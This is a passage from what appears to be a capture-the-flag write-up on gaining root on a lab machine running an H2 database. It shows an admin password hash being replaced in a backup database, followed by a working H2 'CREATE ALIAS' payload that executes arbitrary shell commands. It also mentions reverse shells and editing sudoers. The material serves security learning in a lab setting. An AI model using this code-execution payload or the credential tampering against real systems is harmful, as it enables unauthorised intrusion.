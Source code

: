     
    
    root@kali# unzip .backup.zip
    Archive:  .backup.zip
      inflating: test.trace.db
      inflating: test.mv.db
    

There’s an interesting line in `test.mv.db`:

    
    
    root@kali# strings test.mv.db | grep ADMIN
    CREATE USER IF NOT EXISTS SA SALT '8c7f62c31903e978' HASH 'a942ba85504826fb7f25db0920650ad77c66570d526f76d4d3b9b0f6432daeef' ADMIN
    

I can replace that with my own information:

    
    
    root@kali# strings test.mv.db | grep ADMIN
    CREATE USER IF NOT EXISTS SA PASSWORD 'dfdf' ADMIN
    

Then zip, upload to target, and point restore at the zip.

This method is super flaky. I got it to work a couple times, but have had it
not work many more. Often, I end up corrupting the database.

### Root #2 - Root Shell via Console and Alias Shell Exec

With access to the panel, I can get code execution. There’s a neat blog post
that describes how to get command execution through the H2 console here:
https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

First, I’ll create an alias that gives shell execution by running this:

    
    
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
    

Then, I can call it to see the output:

![](https://0xdfimages.gitlab.io/img/hawk-shellexec.gif)

I actually had a surprisingly difficult time going from this code execution to
a shell. I tried the standard [reverse shells](http://pentestmonkey.net/cheat-
sheet/shells/reverse-shell-cheat-sheet), but none seemed to work. I tried
adding to the sudoers file, but that didn’t work either. I can’t explain this
yet (if you can, leave a comment).

Even if you can’t run the commands directly, there are tons of ways to get to
root from here.

The first thing I did get to work was to create a setuid binary, starting with
this c code:

    
    